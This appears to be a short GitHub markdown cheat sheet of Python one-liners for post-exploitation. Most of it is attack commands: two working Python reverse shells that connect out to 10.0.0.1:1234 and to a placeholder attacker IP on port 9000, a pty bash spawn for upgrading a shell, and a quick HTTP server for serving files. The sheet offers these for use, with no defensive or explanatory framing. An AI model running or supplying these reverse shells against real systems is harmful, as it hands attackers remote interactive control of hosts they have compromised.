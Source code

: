 # Python Command and Scripts for Post Exploitation

One liners
-----------

**Start a web server that serves the local files on port 8000, single threaded**
```python
python -m SimpleHTTPServer 8000```

**Python reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**
```python 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

**Reverse Shell to YOURIP on port 9000**
```python
python -c "import socket,subprocess,os;host=\"[YOURIP]\";port=9000;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((host,port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);"```

**Spawn bash shell prompt**
```python
python -c 'import pty; pty.spawn("/bin/bash")'```

***Print all ASCII characters***
```python
python -c 'import string; print string.printable'```

